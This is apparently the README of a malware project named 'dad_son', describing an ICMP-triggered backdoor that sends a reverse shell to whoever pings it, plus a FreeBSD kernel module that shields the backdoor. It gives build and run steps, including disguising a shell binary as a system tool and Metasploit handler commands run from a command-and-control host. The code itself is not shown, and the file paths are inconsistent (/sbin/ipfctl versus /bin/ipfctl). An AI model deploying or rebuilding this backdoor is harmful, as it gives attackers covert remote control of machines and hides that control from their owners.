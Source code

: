 # dad_son

Malware that listens for ICMP echo requests with a code of 1 and sends back a shell to that IP (this is called `son`), and a FreeBSD kernel module that protects that listener/shell giver (known as `dad`).

## Requirements

libpcap, and the executable that you want to run on ping as /sbin/ipfctl. stdin, out, and err are redirected from son to this executable.

## Build

To compile dad.ko, simply run make on a system with the FreeBSD kernel source tree of your choice in `/usr/src`.  Download the source tree with `wget http://ftp.freebsd.org/pub/FreeBSD/releases/amd64/$(uname -r)/src.txz`, and unzip with `tar -C / -xzvf src.txz` to ensure that it's in the correct location.

To compile son, run `cc -o son son.c -lpcap`.

## How to run

* Compile dad (`make`)
* Compile son (`cc -o son son.c -lpcap`)
* Load the dad module (`kldload ./dad.ko`)
* Place a shell binary as `/bin/ipfctl` (`cp /sbin/sh /sbin/ipfctl`)
* Run `son`
* On your C2 box, launch metasploit and run these commands:
```
use exploit/multi/handler
set LPORT 8888
set LHOST 0.0.0.0
set payload linux/x86/shell_reverse_tcp
exploit
```
* In another window on the C2, run `son-ping.py`
* You should now have a shell on the BSD box
